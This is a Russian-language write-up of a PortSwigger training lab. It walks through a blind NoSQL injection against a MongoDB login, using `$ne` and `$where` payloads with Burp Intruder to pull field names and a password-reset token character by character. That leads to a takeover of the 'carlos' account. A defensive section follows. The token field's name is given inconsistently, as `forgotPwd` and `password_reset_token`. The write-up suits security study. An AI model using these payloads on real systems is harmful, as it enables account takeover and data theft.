









## Lab: Exploiting NoSQL operator injection to extract unknown fields

**Платформа:** PortSwigger Web Security Academy    
**Категория:** NoSQL Injection  
**Сложность:** Practitioner    
**Дата:** 2026-07-28  

---

## TL;DR
Функция поиска пользователей построена на MongoDB. Оператор `$ne` в поле `password` подтвердил инъекцию (ответ изменился с `Invalid username or password` на `Account locked`). Дальнейшая инъекция в `$where` позволила выполнять произвольный JavaScript в контексте документа (`this`). Через `Object.keys(this)[N].match(regex)` и Burp Intruder (Cluster Bomb: позиция + символ) посимвольно извлечены названия всех полей документа пользователя, включая `password_reset_token`. Тем же способом извлечено значение самого токена, что позволило сбросить пароль `carlos` без доступа к его email и войти под его учётной записью.

## Теория: $where как канал для blind-инъекции

`$where` в MongoDB выполняет переданную строку как JavaScript-код в контексте документа, где `this` — текущая обрабатываемая запись. Это даёт доступ к:
- `Object.keys(this)` — массив названий всех полей документа (аналог "список столбцов" в SQL, которого в NoSQL обычно нет).
- `this.<имя_поля>` — прямое обращение к значению любого поля документа, включая такие, что не участвуют в обычном запросе приложения (например, служебные токены).

Через `.match(regex)` внутри `$where` каждое обращение к полю/массиву превращается в проверяемое условие: "символ на позиции N равен X?" — да/нет. Собирая ответы по всем позициям и символам, можно восстановить произвольную строку (имя поля или его значение) посимвольно — тот же принцип, что boolean-based blind SQLi через `SUBSTRING`/`ASCII`, только выполняемый через JS-регулярное выражение вместо SQL-функций.

## Разведка

### Шаг 1 - Подтверждение инъекции через $ne

```json
POST /login
{"username": "carlos", "password": "invalid"}
```
→ `Invalid username or password`

```json
{"username": "carlos", "password": {"$ne": "invalid"}}
```
→ `Account locked`

Изменение текста ошибки подтвердило: оператор `$ne` был принят MongoDB-драйвером как условие, а не как буквальное значение для сравнения — учётная запись `carlos` существует и распознана отдельно от обычных "неверный логин/пароль".



### Шаг 2 - Официальный путь сброса пароля недоступен напрямую

Форма "забыли пароль" для `carlos` требует подтверждение по email, к которому нет доступа — прямой сброс пароля через штатный UI невозможен.

### Шаг 3 - Подтверждение выполнения JavaScript через $where

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
```
→ `Invalid username or password` (условие ложно для всех документов)



```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "1"}
```
→ `Account locked` (условие истинно для всех документов)



Разница в ответе между строковыми `"0"` и `"1"` подтвердила: переданное в `$where` значение реально **исполняется** как JavaScript-выражение на сервере, а не воспринимается как текст.

---

## Эксплуатация

### Шаг 1 - Извлечение названий полей документа через Object.keys(this)

Базовый payload для проверки одного символа на одной позиции в названии поля с индексом 1:
```json
"$where": "Object.keys(this)[1].match('^.{0}a.*')"
```
Разбор regex `^.{N}X.*`: начало строки → ровно N произвольных символов → конкретный символ X → что угодно дальше. Истинность этого условия означает: символ на позиции N+1 названия поля равен X.

### Шаг 2 - Автоматизация через Burp Intruder (Cluster Bomb)

Запрос отправлен в Intruder с двумя позициями payload:
```json
"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"
```
- **Payload 1** (позиция символа): тип Numbers, диапазон 0-20.
- **Payload 2** (сам символ): тип Simple list, набор `a-z`, `A-Z`, `0-9`.
- Attack type: **Cluster bomb**.

Результаты отсортированы по столбцу **Length** (или по тексту ответа) — для каждой позиции ровно один символ давал ответ `Account locked` вместо `Invalid username or password`. Символы, собранные по всем позициям, сложились в название поля: **`username`** (для индекса `[1]`).



### Шаг 3 - Повтор для остальных индексов

Увеличивая индекс массива (`Object.keys(this)[2]`, `[3]`, ...), той же техникой (Intruder Cluster Bomb) извлечены названия остальных полей документа. Среди них обнаружено поле, явно относящееся к функции сброса пароля — **`forgotPwd`**.



### Шаг 4 - Подтверждение имени параметра на эндпоинте сброса пароля

```
GET /forgot-password?foo=invalid
```
→ ответ идентичен обычному состоянию страницы (параметр `foo` не распознан).



```
GET /forgot-password?forgotPwd=invalid
```
→ `Invalid token`



Разница подтвердила, что `forgotPwd` — не просто внутреннее поле документа, но и реально используемое имя query-параметра на эндпоинте `/forgot-password`.

### Шаг 5 - Извлечение значения токена той же техникой

Payload изменён с перебора названий полей на прямое обращение к конкретному полю по имени:
```json
"$where":"this.forgotPwd.match('^.{§§}§§.*')"
```
Тот же Cluster Bomb (позиция + символ) в Intruder, та же сортировка по `Account locked` vs `Invalid username or password`, посимвольно восстановлено значение токена сброса пароля пользователя `carlos`.



### Шаг 6 - Сброс пароля и вход

```
GET /forgot-password?password_reset_token=<извлечённое_значение>
```
Открыта страница смены пароля для аккаунта `carlos` (обход проверки email). Пароль изменён на новый, известный атакующему, после чего выполнен успешный вход под `carlos` — лаба решена.



---

## Вывод / причина уязвимости

- Функция поиска пользователей передаёт значения полей запроса напрямую в MongoDB-запрос без приведения к строковому типу и без санитизации ключей, начинающихся с `$` — что позволило внедрить операторы (`$ne`) и, что критичнее, оператор `$where`, исполняющий произвольный JavaScript.
- `$where` дал доступ к самому документу (`this`) целиком — включая служебные поля (токен сброса пароля), которые не должны быть достижимы через обычную логику входа в систему.
- Механизм сброса пароля через email оказался обходимым: зная имя и значение поля `password_reset_token`, восстановленные через инъекцию, можно было пройти процесс сброса пароля без реального доступа к почтовому ящику жертвы.
- Blind-характер уязвимости (отсутствие прямого вывода данных) не помешал эксплуатации — двух текстовых состояний ответа (`Invalid username or password` / `Account locked`) оказалось достаточно для построения полноценного oracle и автоматизированного посимвольного извлечения данных через Burp Intruder.

## Защита

```javascript
// Явная валидация типа перед передачей в запрос — блокирует любые операторы:
if (typeof username !== 'string' || typeof password !== 'string') {
  throw new Error('Invalid input type');
}
const user = await db.collection('users').findOne({ username, password });
```

Дополнительно:
- Полностью отключать `$where` (и по возможности другие JavaScript-исполняющие операторы) на уровне конфигурации MongoDB, если приложению не требуется эта функциональность (`javascriptEnabled: false` — для серверов, где это применимо).
- Санитизировать входные данные библиотеками, удаляющими ключи, начинающиеся с `$`, из тела запроса (`express-mongo-sanitize` и аналоги).
- Не хранить чувствительные служебные поля (токены сброса пароля) в том же документе, к которому есть risk инъекции через пользовательский поиск — либо явно ограничивать проекцию запроса (`projection`), возвращая/обрабатывая только необходимые поля, а не документ целиком.
- Использовать одноразовые токены сброса пароля с коротким временем жизни и обязательной доставкой по независимому каналу (email), не полагаясь только на секретность самого значения токена.


